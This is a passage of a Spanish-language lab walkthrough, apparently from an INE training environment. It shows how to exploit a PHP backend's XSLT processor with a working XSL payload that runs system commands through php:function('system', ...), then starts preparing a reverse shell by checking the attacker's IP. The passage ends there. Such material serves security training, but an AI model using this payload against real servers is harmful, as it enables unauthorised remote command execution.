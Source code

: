 Paso 10: Explotar el procesador XSLT para ejecutar comandos arbitrarios.

> A estas alturas, hemos entendido que el backend está ejecutando PHP y usando el procesador libxslt. Además, el procesador analiza los archivos suministrados por el usuario sin ningún tipo de saneamiento, en la medida en que lo hemos usado.

Ahora intentaremos ejecutar funciones PHP desde el archivo XSL. Esto solo funcionará si registerPHPFunctions está habilitado para el procesador XSLT, como se muestra en la siguiente publicación: https://laurent.bientz.com/Blog/Entry/Item/using\_php\_functions\_in\_xsl-7.sls

Para probar esto, subiremos otro archivo XSL. Regrese a la página de índice de la aplicación:

```
URL: http://demo.ine.local
```

Guarde el siguiente contenido en el archivo test.xslt:

test.xsl:

```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">
<!-- We add the PHP's xmlns -->
  <xsl:template match="/">
    <html>
       <!-- We use the php suffix to call the functions -->
       <xsl:value-of select="php:function('system','uname -a')" />
       <!-- Output: 'Php Can Now Be Used In Xsl' -->
    </html>
  </xsl:template>
</xsl:stylesheet>
```

> Tenga en cuenta que hemos especificado el comando uname -a que se ejecutará a través de la función del sistema PHP.

Si el código de procesamiento XSLT del backend ha registrado funciones PHP, entonces se ejecutará el código anterior y veremos la salida del comando uname -a en la página resultante.

Cargue el archivo XSL modificado:

* Ahora haz clic en el botón ¡Transformar! botón
* Observe que la salida del comando uname -a se muestra en la página resultante:

> Esto confirma que el código de procesamiento XSLT del backend ha registrado funciones PHP. Esta configuración es inherentemente vulnerable porque los archivos XSL proporcionados por el usuario se procesan tal cual, sin ningún tipo de saneamiento o filtrado.

Paso 11: Obtenga un shell inverso en el servidor de destino.

Compruebe la dirección IP de la máquina atacante:

Mandar:

```
ip addr
```

La dirección IP de la máquina atacante es 192.170.91.2/24.
